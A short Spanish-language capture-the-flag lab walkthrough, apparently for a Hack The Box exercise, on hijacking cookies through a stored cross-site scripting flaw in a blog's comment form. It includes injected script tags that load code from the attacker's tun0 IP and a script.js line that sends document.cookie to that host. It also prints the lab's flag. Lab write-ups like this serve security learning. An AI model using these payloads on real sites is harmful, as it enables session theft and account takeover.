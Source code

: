 # Laboratorio 🤹‍♀️

1. Vamos a la página web y nos dirijimos a la sección de **`Comentarios`**
* **URL:** `http://<IP>/assessment/index.php/2021/06/11/welcome-to-security-blog/`

<p align="center">
    <img src="./assets/11-Web.PNG" height=380>
</p>

---

2. Como tenemos que llevar a cabo un **`Cookie Hijacking`** pondremos el siguiente payload `<script src=http://<tun0 IP>/[Nombre de Campo]></script>`, ej. Cambiamos `[Nombre de Campo]` por **`comment`** o **`website`**, así sabremos cual campo se vulnerable en base a los **logs** de nuestro servidor con **Python** `python3 -m http.server 80`
---
3. El **campo vulnerable** es **`Website`**, creamos un archivo **script.js**

* **script.js**
```
new Image().src='http://<tun0 IP>/index.php?c='+document.cookie;
```

* Creamos un servidor con **Python** **`python3 -m http.server`** 
---
4. **Posteamos nuestro comentario** con el payload **`<script src=http://<tun0 IP>/script.js></script>`** en el campo **Website**
---
5. En los **logs** de nuestro servidor veremos la **flag** 🏴 `flag=HTB{cr055_5173_5cr1p71n6_n1nj4}`